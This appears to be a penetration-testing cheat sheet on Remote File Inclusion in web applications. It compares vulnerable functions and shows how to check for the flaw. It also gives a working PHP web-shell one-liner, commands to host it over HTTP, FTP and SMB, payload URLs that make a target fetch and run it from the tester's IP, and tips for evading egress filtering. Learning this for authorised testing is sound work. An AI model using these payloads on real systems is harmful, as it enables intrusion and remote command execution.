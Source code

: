 ### Overview

- RFI allows remote file inclusion and execution via a vulnerable function.
- **Two main uses:**
    - Remote Code Execution (RCE)
    - Server-Side Request Forgery (SSRF)
- RFI is often possible in functions that also support LFI.

---
## LFI vs. RFI

|Function|Read Content|Execute|Remote URL|
|---|---|---|---|
|`include()` / `include_once()` (PHP)|✅|✅|✅|
|`file_get_contents()` (PHP)|✅|❌|✅|
|`import` (Java)|✅|✅|✅|
|`@Html.RemotePartial()` (.NET)|✅|❌|✅|
|`include` (.NET)|✅|✅|✅|

**Key Points:**
- RFI implies LFI; not all LFI implies RFI.
- RFI might be blocked due to:
    - Disabled `allow_url_include`
    - Partial control over URL
    - Web server configuration

---
## Verifying RFI

### Step 1: Check `allow_url_include`
```bash
echo <base64_config> | base64 -d | grep allow_url_include
```
### Step 2: Attempt Local URL Inclusion
```bash
http://<TARGET>/index.php?language=http://127.0.0.1:80/index.php
```
- Successful inclusion = RFI vulnerability
- Executed PHP output confirms remote PHP execution support

---
## Remote Code Execution via RFI

### Step 1: Create Malicious Script
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
### Step 2: Host Script

#### HTTP Server
```bash
python3 -m http.server
```
#### FTP Server
```bash
python3 -m pyftpdlib -p 21
```
#### SMB Server (Windows Target)
```bash
impacket-smbserver -smb2support share $(pwd)
```

## Payloads for RFI Execution

#### HTTP
```bash
http://<TARGET>/index.php?language=http://<OUR_IP>:<PORT>/shell.php&cmd=id
```
#### FTP
```bash
http://<TARGET>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```
- Authenticated FTP: `ftp://user:pass@<OUR_IP>/shell.php`
#### SMB (Windows)
```bash
http://<TARGET>/index.php?language=\\\\<OUR_IP>\\share\\shell.php&cmd=whoami
```

---
## Notes & Tips

- Use common ports (80, 443, 21) to avoid firewall egress filtering.
- Check for appended extensions (`.php`) in requests.
- SMB RFI does **not require** `allow_url_include = On`.
- SMB-based RFI works best on internal networks due to firewall restrictions.
